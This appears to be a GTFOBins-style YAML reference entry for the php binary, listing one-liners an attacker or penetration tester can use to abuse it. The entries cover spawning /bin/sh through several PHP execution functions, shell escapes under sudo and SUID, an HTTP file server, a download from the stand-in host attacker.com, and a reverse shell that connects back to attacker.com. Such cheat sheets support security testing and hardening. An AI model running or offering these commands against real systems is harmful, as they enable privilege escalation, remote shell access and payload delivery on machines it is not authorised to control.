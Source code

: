 ```yaml
---
functions:
  execute-interactive:
  - code: |
      export CMD="/bin/sh"
      php -r 'system(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'passthru(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'print(shell_exec(getenv("CMD")));'
  - code: |
      export CMD="/bin/sh"
      php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
  - code: |
      export CMD="/bin/sh"
      php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

